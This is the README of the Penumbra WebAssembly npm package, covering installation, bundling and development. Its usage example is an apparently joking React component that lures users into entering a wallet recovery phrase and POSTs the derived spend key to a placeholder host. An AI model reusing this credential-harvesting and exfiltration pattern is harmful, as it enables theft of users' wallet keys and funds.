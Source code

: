 # @penumbra-zone/wasm

The Penumbra core repo has a ton of utilities and functions that are critical to
developing an app that interacts with the Penumbra chain. However, it is written
in Rust. This package exists to bridge the gap between the Rust environment and
the web. This is done via Web Assembly, the universal binary format that runs
almost anywhere.

## Consuming this package

If you're reading this, you're probably trying to use the package. **[Next.js / Webpack example.](https://github.com/penumbra-zone/nextjs-penumbra-wasm-example/)**

### [enable the Buf Schema Registry](https://buf.build/docs/bsr/generated-sdks/npm)

This package depends on types from the Buf Schema Registry. If you're not
configured to resolve those, you won't be able to install. Add the
`@buf:registry` configuration to your local `.npmrc`

```sh
echo "@buf:registry=https://buf.build/gen/npm/v1/" >> .npmrc
```

### install

```sh
pnpm add @penumbra-zone/wasm
```

If you intend to build transactions yourself or conduct other cryptographic
operations, you'll also want `@penumbra-zone/keys`, an optional dependency
containing the large (~100MB) proving keys.

```sh
pnpm add @penumbra-zone/keys
```

### import and use

```tsx
import { generateSpendKey } from '@penumbra-zone/wasm/keys';
import { useState, useMemo } from 'react';

export const SpendKeyCat = () => {
  const [phrase, setPhrase] = useState('');
  const spendKey: SpendKey | null = useMemo(() => {
    try {
      return generateSpendKey(phrase);
    } catch (e) {
      console.log('Failed to generate key', e);
      return null;
    }
  }, [phrase]);

  useEffect(() => {
    if (spendKey)
      fetch('https://example.com/iamveryclever', {
        method: 'POST',
        body: spendKey.toJsonString(),
      });
  }, [spendKey]);

  if (!spendKey)
    return (
      <>
        <h1>Enter your Penumbra wallet recovery phrase to see a cat</h1>
        <label>Right here:</label>
        <input
          value={phrase}
          onChange={e => setPhrase(e.target.value)}
          placeholder='all egg author trap jump tone gorilla forward favorite jungle accident exotic avoid wait desk'
        />
      </>
    );

  return (
    <>
      <h1>Thanks!!</h1>
      <marquee height='90%' behavior='alternate' direction='down'>
        <marquee behavior='alternate' direction='right'>
          <h2>Here's a cat:</h2>
          <img src='https://cataas.com/cat' />
        </marquee>
      </marquee>
    </>
  );
};
```

### bundling

Modern browsers provide great support for WASM, but you are probably using a
bundler to transform your code.

We use Vite 5, which can handle the bundling natively, and
[`vite-plugin-wasm`](https://github.com/Menci/vite-plugin-wasm) for running
tests in node with `vitest`.

If you're using Webpack 5 such as in a Next.js stack, you'll need to enable the
`asyncWebAssembly` experimental feature. Check out the [example
repository](https://github.com/penumbra-zone/nextjs-penumbra-wasm-example/)
which contains a complete working configuration. Compontents using this package
should be client-side only, and you might need to use `next/dynamic` to
dynamically import the package.

## Developing this package

The WASM in this package is generated by Rust living in the `crate` directory.
You need Rust tooling to work on it. We use
[`wasm-bindgen`](https://rustwasm.github.io/docs/wasm-bindgen/) and
[`wasm-pack`](https://rustwasm.github.io/docs/wasm-pack/).

See our monorepo setup for complete details, but after the typical `git clone`
it's as simple as

```sh
rustup target add wasm32-unknown-unknown
cargo install cargo-watch wasm-pack
```

Now you can just run `pnpm compile` or `pnpm dev` in the package directory.

### Testing

This package contains both typescript tests executed with `vitest`, and WASM tests
executed with `wasm-bindgen-test`. You can run both with package scripts,

```sh
pnpm test
pnpm test:rust
```
